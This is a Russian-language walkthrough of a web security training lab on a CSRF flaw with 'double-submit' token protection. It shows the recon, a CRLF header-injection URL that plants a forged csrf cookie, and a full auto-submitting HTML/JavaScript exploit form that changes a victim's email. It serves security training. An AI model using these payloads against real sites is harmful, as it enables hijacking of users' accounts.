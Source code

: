 Функция изменения электронной почты этой лаборатории уязвима для CSRF. Он пытается использовать небезопасную технику предотвращения CSRF «двойной отправки».

## Дано

учетные данные: `wiener:peter`

## Задача

изменить адрес электронной почты зрителя

# Разведка

```
Cookie: session=RMNPbHWNCL2O9OvF6O5rkQqqGPeZuPaM; csrf=FY3cqGw3z1Ra9uxk1B3IuNWYfTj7I7v8

email=test%40mail.ru&csrf=FY3cqGw3z1Ra9uxk1B3IuNWYfTj7I7v8
```

csrf токены одинаковые

Проверим что будет при изменение одного и обоих
- При изменение одного: "Invalid CSRF token"
-  При изменение второго: "Invalid CSRF token"
-  При изменение обоих не совпадающих: "Invalid CSRF token"
-  При изменение обоих совпадающих: ПРОХОДИТ

# Атака

Для смены почты нам надо
- cookie файлы жертвы а csrf токены мы можем сами потделать

Форма атаки:
- Ссылка на динамическую генерацию чтоб мы кинули на его cookie наши csrf токены
- скрипт который обработает ссылку подмены csrf 

Ссылка
```
GET /?search=home%0d%0aSet-Cookie:%20csrf=fake
```
Ответ
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=home
Set-Cookie: csrf=fake; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3425
```

Форма атаки
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3800c404c7490a80bed0b000020065.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;ru" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
     `<img src="https://0a3800c404c7490a80bed0b000020065.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>`
  </body>
</html>
```
